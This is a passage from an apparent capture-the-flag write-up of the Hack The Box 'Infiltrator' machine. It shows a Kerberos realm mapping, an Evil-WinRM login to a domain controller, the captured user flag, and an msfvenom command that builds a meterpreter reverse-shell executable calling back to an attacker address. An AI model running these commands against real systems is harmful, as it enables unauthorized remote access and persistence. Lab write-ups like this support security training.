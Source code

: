 ```c
        .media.mit.edu = MEDIA-LAB.MIT.EDU
        media.mit.edu = MEDIA-LAB.MIT.EDU
        .csail.mit.edu = CSAIL.MIT.EDU
        csail.mit.edu = CSAIL.MIT.EDU
        .whoi.edu = ATHENA.MIT.EDU
        whoi.edu = ATHENA.MIT.EDU
        .stanford.edu = stanford.edu
        .slac.stanford.edu = SLAC.STANFORD.EDU
        .toronto.edu = UTORONTO.CA
        .utoronto.ca = UTORONTO.CA
```

After we finished the configuration we were able to login as `M.harris` using `Evil-WinRM` and to grab the `user.txt`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ evil-winrm -i dc01.infiltrator.htb --realm INFILTRATOR.HTB
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.harris\Documents>
```

## user.txt

```c
*Evil-WinRM* PS C:\Users\M.harris\Desktop> type user.txt
c4da9e472c4aab614ee23ec7e4a9140b
```

## Persistence

We noticed that our session died really quickly and to have more flexibility, we decided to spin up `Metasploit` and get a `meterpreter shell`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.72 LPORT=6969 -f exe -o asdf.exe
Warning: KRB5CCNAME environment variable not supported - unsetting
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: asdf.exe
```
